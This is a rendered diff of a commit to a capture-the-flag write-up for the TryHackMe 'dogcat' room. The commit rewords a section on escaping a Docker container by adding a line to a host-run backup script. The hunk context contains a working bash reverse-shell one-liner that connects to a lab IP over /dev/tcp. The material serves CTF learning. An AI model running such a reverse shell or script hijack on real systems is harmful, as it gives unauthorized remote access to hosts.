

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -735,19 +735,19 @@ echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.8.47.102/9999 0>&1"
 ---
 
 >[!note]
-> ### After we know that we are in container from **`.dockerenv`**
+> ### After we confirmed we were inside a container (presence of `.dockerenv`)
 > <img width="729" height="150" alt="image" src="https://github.com/user-attachments/assets/c021c362-eda4-45cd-afb7-1ec7fe70b0f6" />
 >
-> ### and we found **`/opt/backups`** that have
+> ### we discovered `/opt/backups` containing
 > - backup.sh
 > - backup.tar
-> ## in **`backup.sh`** we found this script
+> ## `backup.sh` contains:
 > ```bash
 > #!/bin/bash
 > tar cf /root/container/backup/backup.tar /root/container
 > ```
-> here this script take backup from **`/root/container`** to **`backup.tar`** if you notice in our **`/root`** there is no **`container`**
+> This script archives `/root/container` into `backup.tar`. Notably, inside the container there is no `/root/container` directory, which indicates that `/root/container` is a path on the **host** (a mounted volume or host directory), not the container's own filesystem.\
 > <img width="800" height="182" alt="image" src="https://github.com/user-attachments/assets/0bd96c4c-6aaa-48d2-a0b3-a4da7c56b67c" />
 >
-> so this is **`/root/container`** form the host not container so i add reveseshell and it bring us to host server
+> I added a reverse-shell line to `backup.sh`. When the host executed that backup script (e.g., via cron or a backup service), the reverse shell connected from the **host**, giving us an interactive shell on the host machine.
 > <img width="957" height="616" alt="image" src="https://github.com/user-attachments/assets/24e6b56f-2690-4c77-8be1-814dec480d78" />
````
